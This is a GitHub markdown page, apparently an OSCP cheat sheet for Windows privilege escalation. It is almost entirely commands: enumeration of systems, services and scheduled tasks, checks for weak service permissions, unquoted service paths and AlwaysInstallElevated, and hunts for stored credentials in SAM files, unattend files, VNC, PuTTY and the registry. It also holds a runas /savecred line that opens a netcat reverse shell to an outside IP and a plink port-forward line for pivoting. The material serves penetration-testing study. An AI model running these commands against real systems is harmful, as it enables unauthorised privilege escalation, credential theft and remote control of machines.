 # Windows Privilege Escalation

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Windows%20Priv%20Esc.md#patch-level)patch level

systeminfo  
wmic qfe get Caption,Description,HotFixID,InstalledOn

whoami  
echo %USERNAME%

net user  
net localgroup

users in a domain  
net user /domain

net group /domain  
net group /domain

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Windows%20Priv%20Esc.md#firewall)Firewall

netsh firewall show state  
netsh firewall show config

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Windows%20Priv%20Esc.md#network)Network

ipconfig /all  
route print  
arp -A

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Windows%20Priv%20Esc.md#scheduled-tasks)Scheduled Tasks

schtasks /query /fo LIST /v  
--copy output and save in txt  
cat schtask.txt | grep "SYSTEM|Task To Run" | grep -B 1 SYSTEM

dir %SystemRoot%\Tasks

e.g. c:\windows\tasks\  
e.g. c:\windows\system32\tasks\

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Windows%20Priv%20Esc.md#weak-service-permissions)Weak Service Permissions

Check service config can be modify or not

accesschk.exe /accepteula  
accesschk.exe -uwcqv "Authenticated Users" * /accepteula  
accesschk.exe -ucqv <Service Name>

sc qc <Service Name> -- Get service details

Check service with weak file permission  
User c:\windows\temp\

wmic.exe  
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

sc.exe  
sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt  
FOR /F %i in (Servicenames.txt) DO echo %i  
type Servicenames.txt  
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt  
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Windows%20Priv%20Esc.md#unquoted-service-path)Unquoted Service Path

wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\" |findstr /i /v """

sc query  
sc qc service name

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Windows%20Priv%20Esc.md#alwaysinstallelevated--if-64-bits-use--systemrootsysnativeregexe)AlwaysInstallElevated << IF 64 bits use: %SystemRoot%\Sysnative\reg.exe

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated  
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Windows%20Priv%20Esc.md#service-only-available-from-inside)Service only available from inside

netstat -ano  
upload plink.exe

plink.exe -R "remote port":127.0.0.1:"local port" root@"ipaddress"

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Windows%20Priv%20Esc.md#pasword-in-files)Pasword in files

[https://pentestlab.blog/tag/privilege-escalation/page/3/](https://pentestlab.blog/tag/privilege-escalation/page/3/)  
cmdkey /list << If there are entries, it means that we may able to runas certain user who stored his cred in windows  
runas /savecred /user:ACCESS\Administrator "c:\windows\system32\cmd.exe /c \IP\share\nc.exe -nv 10.10.14.2 80 -e cmd.exe"

Can we find any SAM files?  
%SYSTEMROOT%\repair\SAM  
%SYSTEMROOT%\System32\config\RegBack\SAM  
%SYSTEMROOT%\System32\config\SAM  
%SYSTEMROOT%\repair\system  
%SYSTEMROOT%\System32\config\SYSTEM  
%SYSTEMROOT%\System32\config\RegBack\system

findstr /si password *.txt  
findstr /si password *.xml  
findstr /si password *.ini  
findstr /si pass/pwd *.ini

dir /s _pass_ == _cred_ == _vnc_ == _.config_

in all files  
findstr /spin "password" _._  
findstr /spin "password" _._

Unattended? vnc?  
c:\sysprep.inf  
c:\sysprep\sysprep.xml  
c:\unattend.xml  
%WINDIR%\Panther\Unattend\Unattended.xml  
%WINDIR%\Panther\Unattended.xml

dir /b /s unattend.xml  
dir /b /s web.config  
dir /b /s sysprep.inf  
dir /b /s sysprep.xml  
dir /b /s _pass_

dir c:*vnc.ini /s /b  
dir c:*ultravnc.ini /s /b  
dir c:\ /s /b | findstr /si *vnc.ini

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Windows%20Priv%20Esc.md#vnc)VNC

reg query "HKCU\Software\ORL\WinVNC3\Password"  
reg query "HKCU\Software\TightVNC\Server"

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Windows%20Priv%20Esc.md#windows-autologin)Windows autologin

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Windows%20Priv%20Esc.md#snmp-paramters)SNMP Paramters

reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Windows%20Priv%20Esc.md#putty)Putty

reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

### [](https://github.com/russweir/OSCP-cheatsheet/blob/master/Windows%20Priv%20Esc.md#search-for-password-in-registry)Search for password in registry

reg query HKLM /f password /t REG_SZ /s  
reg query HKCU /f password /t REG_SZ /s